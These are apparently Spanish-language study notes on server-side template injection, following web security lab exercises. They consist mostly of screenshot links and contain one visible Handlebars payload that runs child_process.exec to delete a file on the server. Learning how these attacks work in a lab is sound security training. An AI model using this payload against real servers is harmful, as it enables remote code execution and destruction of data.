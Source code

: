 
**Server-Side Template Injection (SSTI)** es una vulnerabilidad que ocurre cuando un atacante es capaz de inyectar y ejecutar código malicioso en el servidor a través de una plantilla de renderización. Las plantillas en el servidor son utilizadas para generar dinámicamente contenido HTML, y esta vulnerabilidad surge cuando se permite que las entradas del usuario se incluyan sin una validación o escape adecuado dentro de las plantillas.

# Inyección básica de plantillas del lado del servidor

![[01.InyeccionBasicaPlantillas.png]]
![[02.InyeccionBasicaPlantillas.png]]
![[03.InyeccionBasicaPlantillas.png]]
![[04.InyeccionBasicaPlantillas.png]]
![[05.InyeccionBasicaPlantillas.png]]
![[06.InyeccionBasicaPlantillas.png]]
![[07.InyeccionBasicaPlantillas.png]]
![[08.InyeccionBasicaPlantillas.png]]
![[09.InyeccionBasicaPlantillas.png]]
![[10.InyeccionBasicaPlantillas.png]]
![[11.InyeccionBasicaPlantillas.png]]
![[12.InyeccionBasicaPlantillas.png]]
![[13.InyeccionBasicaPlantillas.png]]

# Inyección básica de plantillas del lado del servidor (contexto del código)

![[01.ContextoDelCodigo.png]]
![[02.ContextoDelCodigo.png]]
![[03.ContextoDelCodigo.png]]
![[04.ContextoDelCodigo.png]]
![[05.ContextoDelCodigo.png]]
![[06.ContextoDelCodigo.png]]
![[07.ContextoDelCodigo.png]]
![[08.ContextoDelCodigo.png]]
![[09.ContextoDelCodigo.png]]
![[10.ContextoDelCodigo.png]]
![[11.ContextoDelCodigo.png]]

# Inyección de plantillas del lado del servidor mediante documentación

![[01.DocumentacionMedianteServidor.png]]
![[02.DocumentacionMedianteServidor.png]]
![[03.DocumentacionMedianteServidor.png]]
![[04.DocumentacionMedianteServidor.png]]
![[05.DocumentacionMedianteServidor.png]]
![[06.DocumentacionMedianteServidor.png]]
![[07.DocumentacionMedianteServidor.png]]
![[08.DocumentacionMedianteServidor.png]]
![[09.DocumentacionMedianteServidor.png]]


# Inyección de plantilla del lado del servidor en un lenguaje desconocido con un exploit documentado

![[01.InyeccionDePlantillaExploit.png]]
![[02.InyeccionDePlantillaExploit.png]]
![[03.InyeccionDePlantillaExploit.png]]
```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

Decode URL
![[04.InyeccionDePlantillaExploit.png]]
![[05.InyeccionDePlantillaExploit.png]]

# Inyección de plantillas del lado del servidor con divulgación de información a través de objetos proporcionados por el usuario

![[01.ObjetosProporcionadosPorUsuario.png]]
![[02.ObjetosProporcionadosPorUsuario.png]]
![[03.ObjetosProporcionadosPorUsuario.png]]
![[04.ObjetosProporcionadosPorUsuario.png]]
![[05.ObjetosProporcionadosPorUsuario.png]]

https://docs.djangoproject.com/en/5.0/ref/settings/

![[06.ObjetosProporcionadosPorUsuario.png]]
![[07.ObjetosProporcionadosPorUsuario.png]]
![[08.ObjetosProporcionadosPorUsuario.png]]
